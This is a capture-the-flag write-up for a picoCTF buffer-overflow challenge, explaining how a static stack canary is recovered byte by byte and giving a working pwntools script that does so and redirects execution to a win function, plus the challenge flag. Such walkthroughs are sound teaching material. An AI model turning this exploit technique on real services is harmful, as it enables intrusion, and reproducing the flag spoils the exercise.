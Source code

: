 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/q8bFFdo.png
points: 300
solves: 1254
tags: binary-exploitation buffer-overflow stack-canary ret-to-win byte-by-byte
date: 1337-11-28
comments: false
---
```


Do you think you can bypass the protection and get the flag?  
It looks like Dr. Oswal added a stack canary to this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln) to protect against buffer overflows. You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Firstly, it's immediately clear this is a classic return-to-win challenge that requires us to override the return register with the address of the win function, as evidenced by the `win()` function that is never called in the normal program execution.  

Secondly, it seems that it's added a stack canary to the stack. For those who don't know, a stack canary is a random value set on a stack whose value is checked to ensure that a buffer overflow did not occur. Without knowledge of the canary, an attacker's buffer overflow would change the stack canary and trigger a `Stack Smashing Detected` warning.  

However, while stack canaries are pretty intimidating, this one isn't as intimidating. Why? Because stack canaries are typically randomly generated every time a program is executed. This one, however, is not randomly generated. Instead, it is read from `canary.txt` every single time, meaning that it stays the same between program executions.  

Initially, I thought I could brute force the stack canary. However, a quick calculation shows that it isn't possible.  
A stack canary of 4 bytes will have `256^4` possible values, i.e. `2^32`, which is equivalent to over a billion possible values -- not very brute forceable.  

Fortunately, there's a clever trick we can use to reduce the number of iterations we have to make from `2^32` to just `4 * 2^8`.  
To demonstrate this, I'll show with an example instead.  

Through dynamic analysis, we can first locate the offset of both the input and the canary on the stack.  

First, I created a `flag.txt` file filled with a fake flag and a `canary.txt` file filled with `1111` for local testing purposes.  
Then, I entered into GDB for `vuln` and set a breakpoint at `*vuln+0x192`, i.e. right after our input.  
For my input, I entered `4` for the number of bytes to input and `aaaa` for my input, just so I could find where my string was in the stack.  
With `x/100x $esp`, I quickly found both the location of both the input and the canary:  

<pre>
0xffce6cf0:     0x0804c000      0x0804c000      <b>0x61616161</b>      0x00000000
0xffce6d00:     0xffce6d48      0xf7f9eff4      0x00000001      0x0804c000
0xffce6d10:     0xffce6e34      0xf7fc2b80      0xffce6d48      0x08049480
0xffce6d20:     0x093151a0      0x00000001      0x00000004      0x093151a0
0xffce6d30:     0x00002710      0x0804c000      <b>0x31313131</b>      0x00000001
</pre>

We can clearly observe that there is an offset of 0x40 bytes between them. Therefore, to overwrite the canary, we simply need add an offset of 0x40 bytes before our canary-guess input.  

But, as we discussed before, it would be extremely inefficient to brute force the canary as is.  
Fortunately, we don't actually need to brute force all 4 bytes of the canary at the same time.  

Let's say I change my input to 0x41 `a`'s. Then, the stack will look like this:  

<pre>
0xfff4feb0:     0x0804c000      0x0804c000      0x61616161      0x61616161
0xfff4fec0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fed0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fee0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fef0:     0x61616161      0x61616161      0x313131<b>61</b>      0x00000002
</pre>

Take a look at the bytes storing the canary -- only the last byte (technically the first byte since little endianness) was changed!  

So, what if we test each byte of the canary at a time, starting with the first byte. Changing only the first byte, we can just continuously test if the program outputs `Stack Smashing Detected` or not. Once it doesn't we know that we have found the correct byte. The reason for this is, since we're only changing the first byte, everything else remains the same, and therefore the stack canary will still be correct as long as the first byte is correct!  

Once we find the first byte, we can move onto the second byte, simply remembering to append the found first byte to the end of the payload to keep that byte of the stack canary right. We can do this repeatedly to find all 4 bytes of the stack canary.  

This program vulnerability demonstrates the weakness of static stack canaries. In fact, our simple solution here is enough to brute force a static/unchanging stack canary of any reasonable length of bytes!  

That's why current stack canaries are randomized for each program execution to ensure that attackers cannot just brute force it like this.  

For this problem though, now that we know how to brute force the stack canary, all that's left to do is locate the `eip` (return address pointer) on the stack and overwrite it with the `win()` function's address so that, when the `vuln()` function returns, it will return to the `win()` function instead and give us the flag!  

A simple GDB command of `i f` gives us where the value of `eip` is stored. A simple subtraction of the canary address from this address provides us the necessary offset to provide after the canary to overwrite the `eip`. All that's left now is to write an exploit program with *pwntools* to brute force the canary and return-to-win to get the flag!  

```py
from pwn import *

port = 58360

canary = b''
for i in range(4):
        payload = b'a' * 64 + canary
        for j in range(256):
                send = payload + j.to_bytes(1, 'big')
                conn = remote('saturn.picoctf.net', port)
                conn.recv()
                conn.sendline(str(65 + i).encode()) # num bytes to send
                conn.recv()
                conn.sendline(send) # payload
                result = conn.recv()
                conn.close()
                if b'Smashing' not in result:
                        canary += j.to_bytes(1, 'big')
                        print(canary)
                        break

conn = remote('saturn.picoctf.net', port)
winpayload = b'a' * 64 + canary + b'a' * 0x10 + p32(0x08049336)
print(conn.recv())
conn.sendline(str(len(winpayload)).encode())
print(str(len(winpayload)).encode())
print(winpayload)
print(conn.recv())
conn.sendline(winpayload)
print(conn.recv())
print(conn.recv())
```

The canary turns out to be `BiRd` and the flag turns out to be:  

    picoCTF{Stat1C_c4n4r13s_4R3_b4D_14b7d39c}